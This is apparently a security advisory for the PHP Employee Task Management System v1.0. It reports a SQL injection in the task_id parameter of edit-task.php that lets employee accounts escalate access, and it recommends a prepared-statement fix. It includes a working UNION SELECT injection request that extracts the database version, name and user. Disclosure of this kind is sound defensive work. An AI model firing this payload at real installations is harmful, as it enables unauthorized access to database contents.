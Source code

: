 # Employee Task Management System - SQL Injection with low privilege authentication

### Date: 
> 17 February 2023

### Author Email: 
> navaidnasari@hotmail.co.uk

### Vendor Homepage:
> https://www.sourcecodester.com

### Software Link:
> [Employee Task Management System](https://www.sourcecodester.com/php/15383/employee-task-management-system-phppdo-free-source-code.html)

### Version:
> v 1.0

### SQL Injection
> SQL Injection is a type of vulnerability in web applications that allows an attacker to execute unauthorized SQL queries on the database by exploiting the application's failure to properly validate user input. The attacker can use this vulnerability to bypass the security measures put in place by the application, allowing them to access or modify sensitive data, or even take control of the entire system. SQL Injection attacks can have severe consequences, including data loss, financial loss, reputational damage, and legal liability. To prevent SQL Injection attacks, developers should properly sanitize and validate all user input, and implement strong security measures, such as input validation, output encoding, parameterized queries, and access controls. Users should also be aware of the risks of SQL Injection attacks and take appropriate measures to protect their data.

### Affected Page:
> edit-task.php

> On this page task_id parameter is vulnerable to SQL Injection Attack

### Description:
> The employee task management system supports two roles of users, one is admin, and another is a normal employee. the detail of role is given below

+ Admin user has full access to the system 
+ Employee user has only a few menu access i.s. Task Management (only assigned tasks) and Attendance (clock In and out)

> So, if the admin assigns a task to a normal employee, an employee could perform the SQL Injection by editing that task from his/her profile. Therefore, low-privileged users could able to get the access full system.

### Proof of Concept:
> Following steps are involved:

+ Admin assigned a task to an employee (ABC)
+ ABC employee edit the task and could perform the SQL injection with vulnerable parameter (edit-task.php?task_id=765)

### Request:
```
GET /etms/edit-task.php?task_id=765%27+and+false+union+select+1,version(),3,database(),user(),6,7--+- HTTP/1.1
Host: localhost
sec-ch-ua: "Chromium";v="109", "Not_A Brand";v="99"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/109.0.5414.75 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Cookie: PHPSESSID=ntknjcf821q2u3h85c14qo1r91
Connection: close
```

### Response:
![image](https://user-images.githubusercontent.com/123810418/219764941-37ede104-c4a5-4500-94f2-2fca6e051343.png)

### Recommendation:
> Whoever uses this CMS, should update line no 27 and 28 of edit-task.php with the following code to avoid SQL Injection attack:
```
Old Code:
$sql = "SELECT * FROM task_info WHERE task_id='$task_id' ";
$info = $obj_admin->manage_all_info($sql);
```

```
New Code: 
$sql = $obj_admin->db->prepare("SELECT * FROM task_info WHERE task_id=:task_id ");
$sql->bindparam(':task_id', $task_id);
$sql->execute();
$row = $sql->fetch(PDO::FETCH_ASSOC);
```

Thank you for reading
